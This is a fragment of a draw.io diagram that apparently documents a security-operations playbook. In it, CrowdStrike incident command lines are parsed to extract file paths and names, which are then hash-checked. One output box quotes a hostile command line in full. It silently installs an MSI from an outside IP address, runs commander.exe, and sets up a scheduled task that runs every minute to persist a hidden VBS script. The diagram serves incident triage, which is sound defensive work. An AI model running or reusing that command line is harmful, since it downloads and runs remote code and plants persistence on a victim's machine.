        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-81" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;amp;lt;nul &amp;amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-82" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Path&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;c:\\windows\\commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks &quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Wscript.Shell&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;d3commander.msi&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="140" width="200" height="100" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>

